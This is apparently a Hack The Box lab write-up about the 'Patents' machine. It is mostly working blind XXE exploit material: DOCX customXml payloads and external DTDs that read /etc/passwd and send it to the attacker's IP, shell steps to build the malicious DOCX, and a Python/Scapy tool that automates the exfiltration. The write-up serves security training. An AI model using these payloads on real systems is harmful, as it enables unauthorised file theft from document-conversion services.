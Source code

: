 ```yaml
---
layout: post
title: "Playing with HTB{ Patents }"
date: 2020-05-16 19:00:00 +0300
author: snovvcrash
tags: [notes, hackthebox, machine, linux, docx, xxe, python, scapy]
---
```


Automate crafting malicious DOCX for blind XXE-OOB with external DTD using Python and Scapy.

<!--cut-->

<p align="right">
  <a href="https://www.hackthebox.eu/home/machines/profile/224"><img src="https://img.shields.io/badge/%e2%98%90-Hack%20The%20Box-8ac53e?style=flat-square" alt="htb-badge.svg" /></a>
  <span class="score-hard">7.8/10</span>
</p>

![banner.png](/assets/images/htb/machines/patents/banner.png)
{:.center-image}

![info.png](/assets/images/htb/machines/patents/info.png)
{:.center-image}

* TOC
{:toc}

# XXE

## Manual exploitation

### Way 1. General entity payload

`customXml/item1.xml`:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY % xxe SYSTEM "http://10.10.15.131:1337/ext.dtd">
%xxe;
%ext;
]>
<foo>&exfil;</foo>
```

External file `ext.dtd` (hosted on local machine):

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % ext "<!ENTITY exfil SYSTEM 'http://10.10.15.131:1337/?x=%file;'>">
```

### Way 2. Parameter entity payload

`customXml/item1.xml`:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY % xxe SYSTEM "http://10.10.15.131:1337/ext.dtd">
%xxe;
]>
<foo></foo>
```

External file `ext.dtd` (hosted on local machine):

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % ext "<!ENTITY &#x25; exfil SYSTEM 'http://10.10.15.131:1337/?x=%file;'>">
%ext;
%exfil;
```

### Malicious DOC/DOCX

Get `docx` sample and unpack it:

```
root@kali:$ curl https://file-examples.com/wp-content/uploads/2017/02/file-sample_100kB.docx > sample.docx
root@kali:$ unzip sample.docx
```

Create `customXml/` dir with a payload and pack it back:

```
root@kali:$ mkdir customXml
root@kali:$ vi customXml/item1.xml
...
root@kali:$ rm malicious.docx; zip -r malicious.docx '[Content_Types].xml' customXml/ docProps/ _rels/ word/
```

![manual-exploit-out-1.png](/assets/images/htb/machines/patents/manual-exploit-out-1.png)
{:.center-image}

![manual-exploit-out-2.png](/assets/images/htb/machines/patents/manual-exploit-out-2.png)
{:.center-image}

## Automate with Scapy

Scripting all the stuff to run simple HTTP server and Scapy HTTP sniffer in separate threads:

```python
#!/usr/bin/env python3

import re
import cmd
import socket
import fcntl
import struct
from base64 import b64decode
from threading import Thread
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer

# http.server.BaseHTTPRequestHandler VS http.server.SimpleHTTPRequestHandler
# socketserver.TCPServer VS http.server.HTTPServer

import requests
from scapy.all import *

M = '\033[%s;35m'  # MAGENTA
S = '\033[0m'      # RESET

URL = 'http://patents.htb/convert.php'


class SilentHTTPRequestHandler(SimpleHTTPRequestHandler):
	"""
	https://stackoverflow.com/a/3389505/6253579
	https://stackoverflow.com/a/10651257/6253579
	"""

	def log_request(self, code='-', size='-'):
		return


class HTTPServerInThread(Thread):

	def __init__(self, address='0.0.0.0', port=1337):
		super().__init__()
		self.address = address
		self.port = port
		self.httpd = TCPServer((address, port), SilentHTTPRequestHandler)

	def run(self):
		print(f'[*] Serving HTTP on {self.address} port {self.port} (http://{self.address}:{self.port}/) ...')
		self.httpd.serve_forever()


class HTTPSniffer(Thread):

	def __init__(self, iface='tun0'):
		super().__init__()
		self.iface = iface
		self.re = re.compile(r'/\?x=(\S+)')

	def run(self):
		# Wireshark filter: "http.request.method == GET && tcp.port == 1337"
		sniff(iface=self.iface, filter='tcp dst port 1337', prn=self.process_http)

	def process_http(self, pkt):
		try:
			req_text = pkt[Raw].load.decode()
			if '/?x=' in req_text:
				contents_b64 = self.re.search(req_text).group(1)
				print(b64decode(contents_b64).decode())
		except IndexError:
			pass


class Default(dict):

	def __missing__(self, key):
		return '{' + key + '}'


class Terminal(cmd.Cmd):

	prompt = f'{M%0}XXE{S}> '

	def __init__(self, proxies=None):
		super().__init__()

		self.headers = {
			'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0',
			'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
			'Accept-Language': 'en-US,en;q=0.5',
			'Accept-Encoding': 'gzip, deflate'
		}

		self.ext_dtd = """\
			<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource={filename}">
			<!ENTITY % ext "<!ENTITY &#x25; exfil SYSTEM 'http://{ip}:1337/?x=%file;'>">
			%ext;
			%exfil;
		""".replace('\t', '').format_map(Default({"ip": self._get_ip()}))

		if proxies:
			self.proxies = {'http': proxies}
		else:
			self.proxies = {}

	def do_file(self, filename):
		with open('/root/htb/boxes/patents/xxe/ext.dtd', 'w') as f:
			f.write(self.ext_dtd.format(filename=filename))

		files = {
			'userfile': ('test.docx', open('/root/htb/boxes/patents/xxe/docx/malicious.docx', 'rb'), 'application/vnd.openxmlformats-officedocument.wordprocessingml.document'),
			'submit': (None, 'Generate pdf')
		}

		resp = requests.post(URL, files=files)

	def do_EOF(self, args):
		print()
		return True

	def emptyline(self):
		pass

	def _get_ip(self, iface='tun0'):
		s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
		return socket.inet_ntoa(fcntl.ioctl(
			s.fileno(),
			0x8915,  # SIOCGIFADDR
			struct.pack('256s', iface[:15].encode())
		)[20:24])


if __name__ == '__main__':
	server = HTTPServerInThread()
	server.daemon = True
	server.start()

	sniffer = HTTPSniffer()
	sniffer.daemon = True
	sniffer.start()

	Terminal().cmdloop()
```

![xxe-py-out.png](/assets/images/htb/machines/patents/xxe-py-out.png)
{:.center-image}

# Refs

* [What is a blind XXE attack? Tutorial & Examples / Web Security Academy](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-exfiltrate-data-out-of-band)
* [Out-of-band XML External Entity (OOB-XXE) / Acunetix](https://www.acunetix.com/blog/articles/band-xml-external-entity-oob-xxe/)
* [bh-eu-13-XML-data-osipov-slides.pdf](https://media.blackhat.com/eu-13/briefings/Osipov/bh-eu-13-XML-data-osipov-slides.pdf)
* [XXE Attacks— Part 1: XML Basics - klose - Medium](https://medium.com/@klose7/https-medium-com-klose7-xxe-attacks-part-1-xml-basics-6fa803da9f26)
* [Exploiting XXE with local DTD files](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)
* [Sample .doc and .docx download / File Examples Download](https://file-examples.com/index.php/sample-documents-download/sample-doc-download/)
* [c# - VSTO Word 2013 add in - Add Custom XML to document xml without it being visible on the page - Stack Overflow](https://stackoverflow.com/a/38797399/6253579)
* [python - How to quiet SimpleHTTPServer? - Stack Overflow](https://stackoverflow.com/a/10651257/6253579)
* [python - Leaving values blank if not passed in str.format - Stack Overflow](https://stackoverflow.com/a/19800610/6253579)
